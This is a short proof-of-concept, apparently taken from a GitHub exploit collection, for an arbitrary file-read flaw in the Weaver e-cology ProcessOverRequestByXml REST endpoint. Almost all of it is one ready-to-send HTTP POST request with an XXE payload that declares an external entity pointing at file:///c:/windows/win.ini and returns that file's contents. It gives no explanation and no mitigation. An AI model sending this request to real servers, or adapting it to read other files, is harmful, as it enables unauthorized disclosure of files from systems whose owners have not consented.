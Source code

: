 # ecology_ProcessOverRequestByXml_fileread

from: https://github.com/wy876/POC/blob/main/%E6%B3%9B%E5%BE%AEe-cology-ProcessOverRequestByXml%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md

2024.4.15 @2

```
POST /rest/ofs/ProcessOverRequestByXml HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Type: application/xml
Content-Length: 146

<?xml version="1.0" encoding="utf-8" ?><!DOCTYPE test[<!ENTITY test SYSTEM "file:///c:/windows/win.ini">]><reset><syscode>&test;</syscode></reset>
```
